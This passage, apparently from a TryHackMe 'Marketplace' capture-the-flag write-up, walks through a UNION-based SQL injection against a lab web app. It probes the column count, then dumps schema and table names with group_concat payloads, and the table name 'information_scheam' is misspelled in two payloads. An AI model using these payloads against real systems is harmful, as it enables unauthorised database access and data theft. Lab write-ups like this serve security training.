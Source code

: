 We have confirmed the existence of the SQLi vulnerability.

To find out the number of columns, I proceed as follows, increasing one at a time.

```
? user=0 UNION SELECT 1,2,3,4,5--
```

When I get to the last 5, I get the following error.

![error_column](/assets/img/tryhackme/marketplace/error_column.png)

So we can go up to 4.

Let's get the information from the database.

```
? user=0 UNION SELECT 1,group_concat(schema_name),3,4 FROM information_scheam.schemata-- 
```

![schemata](/assets/img/tryhackme/marketplace/schemata.png)

I continue from the `marketplace`.

```
? user=0 UNION SELECT 1,group_concat(table_name),3,4 FROM information_scheam.tables WHERE table_schema='marketplace'-- 
```
